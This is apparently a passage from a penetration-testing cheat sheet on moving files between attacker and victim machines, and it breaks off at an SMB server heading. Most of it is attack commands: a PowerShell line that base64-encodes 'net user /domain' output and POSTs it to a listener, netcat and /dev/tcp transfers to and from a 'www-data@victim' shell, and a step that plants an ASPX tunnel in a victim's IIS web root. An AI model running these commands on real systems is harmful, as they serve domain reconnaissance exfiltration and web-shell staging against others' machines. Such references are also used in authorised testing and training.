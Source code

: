Local file to base64:

```
Cmd > certutil -encode <FILE_TO_ENCODE> C:\Windows\Temp\encoded.b64
Cmd > type C:\Windows\Temp\encoded.b64
```

Local string to base64 and POST:

```
PS > $str = cmd /c net user /domain
PS > $base64str = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
PS > Invoke-RestMethod -Uri http://127.0.0.1/msg -Method POST -Body $base64str
```



### Linux2Linux


#### /dev/tcp

```
# Sender:
root@kali:$ nc -w3 -lvnp 1234 < file.txt
# Recipient:
www-data@victim:$ bash -c 'cat < /dev/tcp/127.0.0.1/1234 > /tmp/.file'

# Recipient:
root@kali:$ nc -w3 -lvnp 1234 > file.txt
# Sender:
www-data@victim:$ bash -c 'cat < file.txt > /dev/tcp/127.0.0.1/1234'
```



### Linux2Windows

* [blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)


#### Base64

Full base64 file transfer from Linux to Windows:

```
root@kali:$ base64 -w0 tunnel.aspx; echo
...BASE64_CONTENTS...
PS > Add-Content -Encoding UTF8 tunnel.b64 "<BASE64_CONTENTS>" -NoNewLine
PS > $data = Get-Content -Raw tunnel.b64
PS > [IO.File]::WriteAllBytes("C:\inetpub\wwwroot\uploads\tunnel.aspx", [Convert]::FromBase64String($data))
```


#### SMD

##### impacket-smbserver


[//]: # (# -- 5 spaces before)
[//]: # (## -- 4 spaces before)
[//]: # (### -- 3 spaces before)
[//]: # (#### -- 2 spaces before)
[//]: # (##### -- 1 spaces before)